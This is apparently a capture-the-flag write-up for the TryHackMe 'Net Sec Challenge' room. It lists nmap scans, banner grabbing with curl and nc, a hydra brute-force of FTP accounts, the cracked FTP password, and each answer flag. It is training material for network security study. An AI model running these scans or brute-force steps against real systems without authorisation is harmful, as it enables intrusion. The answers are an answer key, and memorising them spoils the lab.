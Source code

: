 ```yaml
---
description: https://tryhackme.com/room/netsecchallenge
---
```


# Net Sec Challenge

## Task 2 Challenge Questions

#### What is the highest port number being open less than 10,000?

```bash
sudo nmap -n -p -10000 10.10.3.115
```

![](<../../.gitbook/assets/Screenshot from 2022-02-20 21-36-17.png>)

{% hint style="success" %}
8080
{% endhint %}

#### There is an open port outside the common 1000 ports; it is above 10,000. What is it?

```bash
sudo nmap -n -p 10000-20000 -T5 10.10.3.115
```

![](<../../.gitbook/assets/Screenshot from 2022-02-20 22-00-35.png>)

{% hint style="success" %}
10021
{% endhint %}

#### How many TCP ports are open?

{% hint style="success" %}
`6`
{% endhint %}

#### What is the flag hidden in the HTTP server header?

```bash
curl -I http://10.10.3.115
```

![curl -I http://10.10.3.115](<../../.gitbook/assets/Screenshot from 2022-02-20 22-05-51.png>)

{% hint style="success" %}
`THM{web_server_25352}`
{% endhint %}

#### What is the flag hidden in the SSH server header?

```bash
nc 10.10.3.115 22
```

![nc 10.10.3.115 22](<../../.gitbook/assets/Screenshot from 2022-02-20 22-10-00.png>)

{% hint style="success" %}
`THM{946219583339}`
{% endhint %}

#### We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

```bash
nmap -n -sV -p 10021 10.10.3.115
```

![nmap -n -sV -p 10021 10.10.3.115](<../../.gitbook/assets/Screenshot from 2022-02-20 22-13-15.png>)

{% hint style="success" %}
`vsftpd 3.0.3`
{% endhint %}

#### We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?

```bash
echo 'eddie\nquinn' > user.txt
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.3.115:10021
```

![hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.3.115:10021](<../../.gitbook/assets/Screenshot from 2022-02-20 22-17-34.png>)

```bash
lftp -u quinn,andrea -p 10021 10.10.3.115
lftp quinn@10.10.3.115:/> ls
lftp quinn@10.10.3.115:/> cat ftp_flag.txt
```

![lftp -u quinn,andrea -p 10021 10.10.3.115](<../../.gitbook/assets/Screenshot from 2022-02-20 22-22-26.png>)

{% hint style="success" %}
`THM{321452667098}`
{% endhint %}

#### <mark style="color:red;">Browsing to http://10.10.3.115:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?</mark>

```bash
nmap -n -sN 10.10.1.145
```

![](<../../.gitbook/assets/Screenshot from 2022-02-21 00-57-56.png>)

{% hint style="success" %}
`THM{f7443f99}`
{% endhint %}
